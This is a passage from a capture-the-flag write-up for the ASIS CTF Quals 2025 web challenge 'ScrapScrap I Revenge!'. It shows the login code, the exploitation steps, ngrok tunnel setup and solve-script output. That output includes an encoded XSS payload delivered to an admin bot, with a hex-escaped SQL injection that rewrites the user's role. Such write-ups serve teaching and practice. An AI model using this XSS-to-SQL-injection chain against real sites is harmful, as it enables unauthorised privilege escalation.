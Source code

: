 ```javascript
router.post('/login', async (req, res) => {
  [...]
  req.session.user = { id: user.id, username: user.username, data_dir: user.data_dir, scrap_dir: user.scrap_dir, role: user.role };
  [...]
});
[...]
router.get('/me', requireAuth, (req, res) => {
  res.json(req.session.user);
})
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909164635.png)

## Exploitation

Armed with above information, we can get the flag by:
1. Register and login as a new user
2. Get our user ID
3. Build our XSS payload and send it to the `superbot` via POST request `/checker/visit`
4. Logout and log back to our account
5. Get the flag in `/scrap`

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|19:05:49(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:14148 -> localhost:5000                             
[...]
```

- Run the solve script

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|19:07:28(HKT)]
└> python3 solve.py
[*] Registering new user UZhSdAQNFB with password "UZhSdAQNFB"...
[*] Logging in as user UZhSdAQNFB...
[*] User ID: 28 | Role: demo
[*] Starting our web server...
[*] Visiting URL for bot: http://localhost:3000/checker?url=http://0.tcp.ap.ngrok.io:14148/sleep%3Fpayload%3D%3C%3Ci%3Eimg%20src%20onerror%3D%22eval%28fetch%28%27/debug/create_log%27%2C%20%7B%20method%3A%20%27POST%27%2C%20body%3A%20new%20URLSearchParams%28%7B%20%27log%27%3A%20%27%5Cx27%5Cx29%5Cx3b%5Cx55%5Cx50%5Cx44%5Cx41%5Cx54%5Cx45%5Cx20%5Cx75%5Cx73%5Cx65%5Cx72%5Cx73%5Cx20%5Cx53%5Cx45%5Cx54%5Cx20%5Cx72%5Cx6f%5Cx6c%5Cx65%5Cx3d%5Cx22%5Cx75%5Cx73%5Cx65%5Cx72%5Cx22%5Cx20%5Cx57%5Cx48%5Cx45%5Cx52%5Cx45%5Cx20%5Cx69%5Cx64%5Cx3d%5Cx32%5Cx38%5Cx3b%5Cx53%5Cx45%5Cx4c%5Cx45%5Cx43%5Cx54%27%20%7D%29%7D%29%29%22%3C/i%3E%3E
[...]
[*] Logging out as user UZhSdAQNFB...
[*] Logging in as user UZhSdAQNFB...
[*] User ID: 28 | Role: user
[+] Flag 1: ASIS{FAKE_FLAG1}
```
